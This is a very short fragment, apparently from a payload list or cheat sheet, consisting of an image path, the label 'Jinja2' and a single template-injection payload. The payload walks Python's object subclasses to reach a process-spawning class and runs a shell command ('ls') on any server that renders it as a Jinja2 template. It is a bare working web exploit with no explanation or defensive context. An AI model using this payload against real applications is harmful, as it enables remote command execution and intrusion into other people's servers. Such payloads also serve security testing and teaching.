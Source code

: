 Jinja2 
```python
{{ ''.__class__.__mro__[1].__subclasses__()[353]('ls',shell=True,stdout=-1).communicate() }}
```
